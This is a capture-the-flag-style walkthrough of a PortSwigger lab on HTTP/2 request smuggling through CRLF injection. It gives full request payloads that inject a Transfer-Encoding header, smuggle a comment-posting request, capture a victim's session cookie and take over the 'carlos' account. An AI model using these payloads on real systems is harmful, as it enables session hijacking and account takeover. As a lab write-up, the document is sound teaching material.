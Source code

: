 
# HTTP/2 request smuggling via CRLF injection

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them.

Hint: To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the Shift + Return keys. Note that this feature is not available when you double-click on the header.

Hint: We covered some ways you can capture other users' requests via request smuggling in a previous lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/advanced



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/1.png)

---------------------------------------------


There is a function to send comments:



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/2.png)


It generates a POST request:



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/3.png)


To test the H2.TE payload like this one:

```
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

GET /404 HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Content-Length: 10

a
```


We must add a new header and add \r\n and the “Transfer-Encoding: chunked” header inside its value, in the Inspector, with the keys “Shift+Return” (Mayús+Enter):



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/4.png)


Every 2 requests, one is to /404:



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/5.png)


We will change the request to “/404” for a payload to post a comment:

```
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 100

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
```



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/6.png)


We see the request is written as a comment in the post:



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/7.png)


The final payload is:

```
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 200

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
```

You can read the whole cookies in the comments:



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/8.png)


And use the cookie to accecss the page as “carlos”:



![img](images/HTTP/2%20request%20smuggling%20via%20CRLF%20injection/9.png)

